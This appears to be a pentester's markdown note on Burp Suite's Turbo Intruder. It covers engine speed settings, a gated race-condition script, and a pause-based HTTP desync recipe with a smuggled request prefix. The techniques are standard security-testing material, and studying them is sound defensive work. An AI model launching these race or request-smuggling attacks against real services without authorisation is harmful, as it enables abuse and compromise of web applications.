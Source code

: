 # Turbo Intruder
The BurpSuite extension to be able to do more intruder stuff.

It uses python. And the user can define the algorithm of two functions.
```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=1,
                           pipeline=False
                           )
```
and 
```python
def handleResponse(req, interesting):
    table.add(req)
```

These functions are kinda straightforward. The first one queues and sends the requests, and the second one handles the responses it gets.

### Speed
The speed of these basic settings is 8 requests/second:
```python
    concurrentConnections=1,
    requestsPerConnection=1,
    pipeline=False
```

By changing concurrentConnections to 25, the speed becomes 39 requests/second:
```python
    concurrentConnections=25,
    requestsPerConnection=1,
    pipeline=False
```

By changing requestsPerConnection to 100, the speed becomes 869 requests/second:
```python
    concurrentConnections=25,
    requestsPerConnection=100,
    pipeline=False
```

By setting pipelining to true, the speed becomes 1785 requests/second:
```python
    concurrentConnections=25,
    requestsPerConnection=100,
    pipeline=True
```

## Race conditions | Parallel requests
For race conditions where you have to send multiple packets at the same time, while you can brute force through some (word)list while sending them. It can probably only hold like 20~30 requests at the same time, so any more will probably not work. 

```python
def queueRequests(target, wordlists):

    # if the target supports HTTP/2, use engine=Engine.BURP2 to trigger the single-packet attack
    # if they only support HTTP/1, use Engine.THREADED or Engine.BURP instead
    # for more information, check out https://portswigger.net/research/smashing-the-state-machine
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )

    # the 'gate' argument withholds part of each request until openGate is invoked
    # if you see a negative timestamp, the server responded before the request was complete
    for word in wordlists.clipboard:
        engine.queue(target.req, word, gate='race1')

    # once every 'race1' tagged request has been queued
    # invoke engine.openGate() to send them in sync
    engine.openGate('race1')


def handleResponse(req, interesting):
    table.add(req)
```

## Pause Based Desync Attack
Sometimes, a pause withing the sending of the request can cause a desync attack vector. Take a look [here](../web/smuggling.md#desync--pause-based).

1. In Burp Turbo Intruder, create a request like this:
```
POST /example HTTP/1.1
Host: vulnerable-website.com
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

GET /hopefully404 HTTP/1.1
Foo: x
```

2. In the python editor panel, adjust the request engine configuration to set these options:
```python
concurrentConnections=1,
requestsPerConnection=100,
pipeline=False,
engine=Engine.THREADED
```

3. Add extra arguments to the `engine.queue()` function something like this:
```python
engine.queue(target.req, pauseMarker=['\r\n\r\n'], pauseTime=60000) # Adjust for needs
```

4. Just also queue a normal follow-up request as normal:
```python
followUp = 'GET / HTTP/1.1\r\nHost: vulnerable-website.com\r\n\r\n'
engine.queue(followUp)
```

After the delay you specified in step 3, you should get two responses. If the latter response matches what you expected from the smuggled prefix, this strongly suggests that the desync was succesful.